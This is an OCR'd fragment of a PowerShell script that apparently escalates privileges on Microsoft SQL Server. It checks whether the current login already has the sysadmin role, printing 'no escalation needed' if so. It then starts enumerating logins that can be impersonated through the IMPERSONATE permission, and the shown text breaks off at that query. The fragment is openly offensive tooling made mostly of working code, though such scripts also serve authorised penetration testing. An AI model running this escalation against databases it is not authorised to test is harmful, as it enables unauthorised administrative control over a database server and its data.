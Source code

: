         # Setup query
        $Query = "select is_srvrolemember('sysadmin') as sysstatus"

        # Execute query
        $cmd = New-Object System.Data.SqlClient.SqlCommand($Query,$conn)
        $results = $cmd.ExecuteReader() 

        # Parse query results
        $TableIsSysAdmin = New-Object System.Data.DataTable
        $TableIsSysAdmin.Load($results)  

        # Check if current user is a sysadmin
        $TableIsSysAdmin | Select-Object -First 1 sysstatus | foreach {

            $Checksysadmin = $_.sysstatus
            if ($Checksysadmin -ne 0){
                    Write-Host "[*] You're already a sysadmin - no escalation needed." -foreground "green"
                    Write-Host "[*] All Done."
                    Break             
            }
        }

        # Close db connection
        $conn.Close()

        # -----------------------------------------------
        # Get a list of the users that can be impersonated
        # -----------------------------------------------     
        
        # User status
        Write-Host "[*] Enumerating a list of users that can be impersonated..."  

        # Open db connection
        $conn.Open()

        # Setup query
        $QueryDatabases = "SELECT DISTINCT b.name
        FROM sys.server_permissions a
        INNER JOIN sys.server_principals b
        ON a.grantor_principal_id = b.principal_id 
        WHERE a.permission_name = 'IMPERSONATE'"

